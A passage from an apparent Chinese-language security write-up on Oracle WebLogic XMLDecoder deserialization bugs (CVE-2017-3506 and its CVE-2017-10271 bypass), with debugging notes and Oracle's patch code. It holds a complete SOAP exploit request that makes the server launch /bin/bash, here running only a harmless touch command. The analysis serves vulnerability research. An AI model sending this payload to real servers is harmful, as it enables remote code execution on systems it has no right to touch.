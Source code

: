     <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
      <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java version="1.8.0_131" class="java.beans.XMLDecoder">
            <void class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>/bin/bash</string>
                </void>
                <void index="1">
                  <string>-c</string>
                </void>
                <void index="2">
                  <string>touch /tmp/CVE-2017-3506</string>
                </void>
              </array>
            <void method="start"/></void>
          </java>
        </work:WorkContext>
      </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>
    
    ```
    
    断点下在 WorkContextTube#readHeaderOld 上，然后进入 receive 中
    
    ![image-20220129211439149](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-73cfbbc570825c641705474167a66c760db42881.png)
    
    持续跟进到 readUTF 中，发现反序列化操作
    
    ![image-20220129211731830](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-c195e47eead72217cc3331f1a5e0a70ff5b0cd5e.png)
- ### CVE-2017-10271（CVE-2017-3506 绕过）
    
    先看一下官方的补丁
    
    ```java
    private void validate(InputStream is) {
        WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
        try {
           SAXParser parser = factory.newSAXParser();
           parser.parse(is, new DefaultHandler() {
              public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
                 if(qName.equalsIgnoreCase("object")) {
                    throw new IllegalStateException("Invalid context type: object");
                 }
              }
           });
        } catch (ParserConfigurationException var5) {
           throw new IllegalStateException("Parser Exception", var5);
        } catch (SAXException var6) {
           throw new IllegalStateException("Parser Exception", var6);
        } catch (IOException var7) {
           throw new IllegalStateException("Parser Exception", var7);
        }
     }
    ```
    